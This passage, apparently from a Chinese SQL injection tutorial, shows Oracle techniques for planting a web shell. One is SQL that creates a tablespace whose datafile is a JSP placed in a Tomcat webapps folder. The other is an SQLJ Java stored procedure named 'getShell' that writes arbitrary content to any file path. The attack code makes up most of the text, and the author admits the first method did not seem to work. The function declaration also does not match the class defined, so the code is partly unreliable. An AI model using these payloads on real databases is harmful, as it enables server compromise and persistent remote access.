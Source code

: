 执行以下 SQL 创建表空间：

```
create tablespace shell datafile 'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/shell.jsp' size 100k nologging ;
CREATE TABLE SHELL(C varchar2(100)) tablespace shell;
insert into SHELL values('hello world');
commit;
alter tablespace shell offline;
drop tablespace shell including contents; 
```

这方法是能写文件，但是好像没发现我的 hello world，难道是我打开方式不对？

Oracle SQLJ 编译执行 Java 代码：

众所周知，由于 sun 那只土鳖不争气居然被 oracle 给收购了。

不过对 Oracle 来说的确是有有不少优势的。

SQLJ 是一个与 Java 编程语言紧密集成的嵌入式 SQL 的版本，这里"嵌入式 SQL"是用来在其宿主通用编程语言如 C、C++、Java、Ada 和 COBOL）中调用 SQL 语句。SQL 翻译器用 SQLJ 运行时库中的调用来替代嵌入式 SQLJ 语句，该运行时库真正实现 SQL 操作。这样翻译的结果是得到一个可使用任何 Java 翻译器进行编译的 Java 源程序。一旦 Java 源程序被编译，Java 执行程序就可在任何数据库上运行。SQLJ 运行环境由纯 Java 实现的小 SQLJ 运行库（小，意指其中包括少量的代码）组成，该运行时库转而调用相应数据库的 JDBC 驱动程序。

SQLJ 可以这样玩：首先创建一个类提供一个静态方法：
￼
![enter image description here](img/img23_u16_png.jpg)

其中的 getShell 是我们的方法名，p 和才是参数，p 是路径，而 c 是要写的文件内容。在创建 Java 存储过程的时候方法类型必须是静态的 static

执行以下 SQL 创建 Java 储存过程：

```
create or replace and compile
java source named "getShell"
as public class GetShell {public static int getShell(String p, String c) {int RC = -1;try {new java.io.FileOutputStream(p).write(c.getBytes());RC = 1;} catch (Exception e) {e.printStackTrace();}return RC;}} 
```

创建函数：

```
create or replace
function getShell(p in varchar2, c in varchar2) return number
as
language java
name 'util.getShell(java.lang.String, java.lang.String) return Integer'; 
```
